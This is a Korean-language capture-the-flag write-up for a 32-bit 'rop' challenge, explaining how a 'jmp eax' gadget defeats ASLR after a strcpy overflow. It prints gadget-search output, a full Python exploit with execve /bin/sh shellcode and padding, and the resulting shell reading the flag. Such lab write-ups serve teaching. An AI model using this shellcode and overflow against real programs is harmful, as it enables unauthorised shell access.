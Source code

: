 #### 1. 문제 분석

이번 문제는 ```System 100``` 문제와 매우 유사하게 생겼으나 전역변수인 shellcode가 없어졌습니다.

따라서 이번에는 ASLR을 피해갈 수 없을것 같군요... ㅠㅠ

문제의 설명에도 나와있듯이 ASLR을 무력화 하기위하여 우리는 ROP라는 기술을 사용하려고 합니다.

사실 그렇게 거창한것도 아니고 그냥 문제 binary 안에 있는 코드들은 주소가 고정이므로 이 코드들을 사용하여 문제를 푸려고 하는것이죠.
( [PIE](https://en.wikipedia.org/wiki/Position-independent_code)가 걸려있으면 고정이 아니지만 이 문제는 [PIE](https://en.wikipedia.org/wiki/Position-independent_code)가 걸려있지 않습니다. )

찬찬히 문제를 gdb로 디버깅하면서 레지스터 값들을 보면 우리의 인풋 값들이 들어있는 주소를 담고 있는 레지스터가 여럿 보입니다.

그 중에서 가장 깔끔하게 사용할 수 있는 레지스터는 eax인데, 왜 이런가 보니

strcpy 함수가 실행되고 이 함수의 리턴값은 destination의 포인터인데 함수의 리턴값은 eax에 저장됩니다.

따라서 우리의 인풋값을 가리키는 포인터가 eax 레지스터에 들어있게 되는거죠!

우리는 이걸 이용하여 문제 binary 안에 있는 `jmp eax` 코드를 사용하게 되면 `char buffer[64]` 의 주소가 ASLR 때문에 랜덤이더라도 buffer 배열로 jump를 할 수 있게 됩니다.

그러면 buffer 배열에 shellcode를 넣고 return address에는 'jmp eax' 코드의 주소를 넣으면 shellcode가 실행되어 쉘을 얻을 수 있겠죠 하하 


#### 2. 문제 풀이

하지만 아직 우리는 `jmp eax` 코드의 주소를 모릅니다. 어떻게 알아내야 할까요?

여러가지 방법이 있지만 개인적으로는 [PEDA](https://github.com/longld/peda)를 사용하는 방법을 가장 선호합니다.

```Shell
$ gdb -q rop
gdb-peda$ b *main
gdb-peda$ r
gdb-peda$ jmpcall eax
...
0x8050bd4 : jmp eax
0x8052140 : jmp eax
0x805217e : jmp eax
0x8052676 : jmp eax
0x8053ae7 : jmp eax
0x8053b45 : jmp eax
0x8053c1d : jmp eax
0x8053e7d : jmp eax
...
```

`jmp eax` 코드가 아주 많군요. 아무거나 하나 집어서 사용하면 됩니다.

필요한게 다 갖추어 졌으니 공격을 해봅시다.

#### 3. Exploit Code

```Python
# exploit.py
from struct import pack
jmpeax = 0x808c3ba

# gdb-peda$ shellcode generate x86/linux exec
# x86/linux/exec: 24 bytes
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
    "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)

# buffer + dummy size is 64+12=76
payload = ""
payload+= shellcode
payload+= "\x90"*(76 - len(payload))
payload+= pack("<L", jmpeax)

print payload
```

```Shell
$ ./rop `python exploit.py`
Attack me and read the flag :)
$ cat flag
R0P c4n d3f34t ASLR or more things!
$ exit
```

